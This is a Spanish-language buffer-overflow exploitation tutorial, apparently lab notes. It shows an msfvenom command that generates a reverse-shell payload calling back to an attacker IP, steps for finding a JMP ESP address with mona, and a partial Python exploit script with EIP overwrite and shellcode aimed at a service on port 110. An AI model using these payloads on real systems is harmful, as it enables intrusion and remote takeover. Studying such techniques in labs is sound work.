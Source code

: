 Una vez creado el **byte array** con los **badchars** excluidos, no deberíamos tener ningún problema a la hora de ejecutar nuestro shellcode a futuro. Por lo que en este caso toca encontrar el espacio den memoria que apunte al ESP ya que no podemos apuntar directamente a este y necesitamos apuntara a un registro en memoria que se encarge de realizar un salto al ESP.

## Creando el shellcode 

Para crear el shellcode lo podemos hacer de manera manual o con herramientas como **msfvenom**.

`msfvenom -p windows/shell_reverse_tcp --platform windows -a x86 LHOST=192.168.1.33 LPORT=443 -f c -e x86/shikata_ga_nai -b '\x00\x0a\x0d' EXITFUNC=thread`

En esta caso con el **-p** indicamos el *payload*, con **--plaform** claramente la *plataforma*, con **-a** la **arquitectura** (En este caso 32bits = x86), con **LHOST** nuestra *IP* de atacante a donde queremos recibir la conexión y con **LPORT** el *puerto*, con **-f** el *formato* (Python, C, etc.), con **-e** el *encoder* a usar (En caso de tener muchos badchars y usar el shikata_ga_nai aveces no podrá encodear todo de una manera optima, en esos caso es mejor no especificar un *-e* y dejar que msfvenom se encarge de aplicar el más optimo), con **-b** los *badchars* y el **EXITFUNC=thread** es para que a la hora de terminar la conexión con la consola interactiva no mate el proceso padre (El programa vulnerable a buffer overflow) para no crashear el programa, de esta manera creamos un hilo que a la hora de salir de la consola se mantenga el servicio inicial y solo se termine el nuevo proceso hijo que se abrirá. 

Una vez creado el shellcode, solo tendríamos que encontrar un **OpCode** para que podamos apuntar al ESP donde esta nuestro shellcode.

Para buscar el *OpCode* podríamos hacer uso de la herramienta *nasm_shell.rb* para entrar en modo interactivo :

```bash
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb  
# Una vez en modo interactivo escribimos los siguiente 
jmp ESP 
```

Esto nos devolverá el **OpCode** de **jmp ESP** ( FFE4 = \\xFF\\xE4 ) el cual al no ser una dirección (Solo un OpCode) no debemos darle la vuelta como little endian.

Una vez con este **OpCode** haciendo uso de mona con el comando **!mona modules** podremos ver los módulos que se usan en el programa donde tendremos que buscar uno que tenga las 4 primeras columnas en *FALSE* para buscar (**!mona find -s ""\\xFF\\xE4" -m {module_name}**) si existe el OpCode **JMP ESP** dentro del modulo, en caso de que existe, devolverá múltiples direcciones de memoria y seleccionaremos una (La cual no tiene que contener badchars). 
En algunos casos puede ser que nos diga que se encontraron un total de *0 pointers*, en este caso podemos hacer uso en lugar de "find" de "findwild" (*!mona help findwild*) para buscar por instrucciones (*!mona findwild -s "JMP ESP"*)

Ahora nuestro **EIP** tiene que valer esta dirección en memoria encontrada dentro de uno de los módulos donde existe el OpCode dentro en una dirección en particular, la cual copiamos y representamos en little endian o, si estamos en python, con la librería *struct* la función *pack*.

```python
#!/usr/bin/python3 

import socket
import sys 
from struct import pack 
ip = "192.168.1.34"
port = 110
offset = 4654

before_eip = b"A"*offset
eip = pack("<L", 0x5f4a358f) # "<L" para indicar que es littel endian (5f4a358f es una de las direcciones donde se encontro el OpCode JMP ESP del modulo seleccionado)
shellcode = (b"\xbd\xb9\xba\x5a\xae\xd9\xe5\xd9\x74\x24\xf4\x5f\x33\xc9"
b"\xb1\x52\x31\x6f\x12\x83\xc7\x04\x03\xd6\xb4\xb8\x5b\xd4"
b"\x21\xbe\xa4\x24\xb2\xdf\x2d\xc1\x83\xdf\x4a\x82\xb4\xef"
b"\x19\xc6\x38\x9b\x4c\xf2\xcb\xe9\x58\xf5\x7c\x47\xbf\x38"
```